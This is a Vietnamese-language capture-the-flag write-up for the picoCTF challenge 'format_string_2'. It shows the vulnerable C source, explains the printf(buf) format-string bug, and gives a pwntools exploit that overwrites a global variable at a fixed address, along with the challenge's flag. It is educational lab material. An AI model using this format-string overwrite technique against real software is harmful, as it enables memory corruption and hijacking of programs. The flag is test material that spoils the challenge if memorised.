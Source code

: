 # Format_string_2
Giống như các bài `format_string` trước đó, ở challenge này ta cũng có 2 file, một file binary `vuln` và file .c `vuln.c`.

Mở file `vuln.c` ra ta có source code của challenge này như sau:

``` c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

Như tên của challenge `format_string` thì ta thấy đoạn code của chương trình này có một lỗi `format_string` ở dòng:

``` c
printf(buf);
```

Nhìn xuống một xíu thì ta thấy cách để lấy flag của challenge này:

``` c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```

Mục tiêu của chúng ta bây giờ sẽ là làm cho biến `sus` từ `0x21737573` thành `0x67616c66`.

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ biến `sus` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![image](https://github.com/user-attachments/assets/a609843c-f862-4a2e-99c2-eb27cca1917b)

Tìm hiểu đôi chút cùng ChatGPT, tôi đã được biết rằng trong thư viện `pwntools`, class `FmtStr` có một tính năng là tự động dò tìm offset của format-string. 

`FmtStr` sẽ tự động gửi payload thử nghiệm, dựa trên phản hồi từ server, tìm ra offset phù hợp mà ta có thể dùng để viết giá trị lên các địa chỉ mong muốn. Khi khởi tạo `FmtStr(exec_fmt)`, pwntools sẽ gọi hàm `exec_fmt` nhiều lần với các payload khác nhau để tìm offset.

Xem chi tiết hơn về chức năng này của `FmtStr` tại đây: [LINK](https://docs.pwntools.com/en/stable/fmtstr.html)

Giờ ta chỉ cần sử dụng tính năng này vào việc ghi đè địa chỉ `0x404060` (biến `sus`) với giá trị là `0x67616c66`.

Từ những phân tích trên, ta có file exploit như sau:

``` python 
from pwn import *

context.log_level = "debug"
context.binary = ELF('./vuln')
p = remote('rhea.picoctf.net', 52725)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 52725)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66}) // Ghi đè giá trị 0x67616c66 lên địa chỉ 0x404060 ( địa chỉ biến sus )

p.sendline(payload)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}
```
